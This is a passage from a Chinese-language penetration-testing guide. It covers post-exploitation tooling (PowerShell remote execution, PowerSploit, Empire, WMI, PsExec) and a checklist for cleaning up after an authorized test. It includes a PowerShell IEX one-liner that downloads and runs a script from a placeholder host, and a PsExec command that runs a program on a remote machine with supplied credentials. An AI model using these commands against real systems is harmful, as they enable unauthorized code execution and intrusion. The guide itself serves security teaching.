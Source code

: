 执行远程脚本
```
PS > IEX (New-Object Net.WebClient).DownloadString('http://host/do_some_bad_thing.ps1')
```

### PowerSploit
PowerSploit是一些后渗透利用的一些PowerShell脚本的集合。PowerSploit的github地址为：[https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

PowerShell远程执行可以直接调用PowerSploit里封装好的脚本。一般操作是把PowerSploit clone到攻击环境，再搭建一个简单的http服务器，比如通过python3 -m http.server 80, 接下来直接远程执行对应脚本。

### Empire
Empire是另一款后渗透测试利用框架。github地址为 [https://github.com/EmpireProject/Empire](https://github.com/EmpireProject/Empire). 不过这个框架已经停止维护了。

这个工具的使用和msf的meterpreter模块非常类似，首先生成一个payload，然后开启监听，最后payload在目标系统上执行让攻击者可以控制目标系统。

### WMI（Windows Management Instrumentation）
WMI是Windows管理规范（Windows Management Instrumentation）的缩写。

WMI提供了一套内置在Microsoft Windows操作系统中的丰富的系统管理服务，可以在有大量的应用程序、服务和设备的系统中提供全方位的管理功能。

通过WMI接口可以获得的信息量是惊人的，包括硬件设置，状态信息，驱动器配置，BIOS信息，应用程序的设置，事件记录信息，以及其他。

我们前面讲到powershell，比如get-command, get-process, get-service这些命令，都是调用了WMI的接口。

Windows本身提供了几个WMI工具供用户使用，包括WMIC.exe、WBEMTest.exe和WMI Administrative Tools等, 不过WMI Administrative Tools好像微软不再支持了，官网已不再支持下载。

更多WMI相关内容，请查看参考文献[2],[3]。 

### Sysinternals 和 PSExec
Sysinternals是微软提供的一套工具集，支持管理员远程控制windows主机。下载地址 [https://docs.microsoft.com/en-us/sysinternals/downloads/](https://docs.microsoft.com/en-us/sysinternals/downloads/)

Sysinternals工具集中PsExec是功能非常强大的攻击之一。PsExec允许攻击者远程执行程序，配置注册表等操作。

比如远程打开一个计算器程序
```
PsExec \\\\vitem_host -u username -p password -d -i calc.exe
```

更多相关内容，请查看参考文献[4]

## 清除痕迹
在前期交互过程，测试人员要和甲方说明清楚清除痕迹和环境恢复流程。一般来说，测试人员在这个阶段，checklist如下：<br>
    删除测试过程添加的账户<br>
    删除所有测试文件，包括二进制，脚本，临时文件等，安全删除方法在前期交互过程要和甲方确认清楚<br>
    把系统配置文件恢复成原样<br>
    删除所有后门，守护进程，服务，rootkits等<br>
    删除所有甲方用户数据（在提交渗透测试给甲方后）

清除痕迹一定要很细致，比如你通过msf执行某个攻击，但是出现了异常，你此时就需要分析模块执行了什么操作，是否有在目标系统上传脚本或文件，这些都需要被处理。

所以最好是能有一个staging environment（生产环境/模拟环境）提供给渗透测试人员测试，这样恢复起来比较简单。不过有些场景只能在实际环境测试，这时候就得十分小心，清除过程得细致干净。
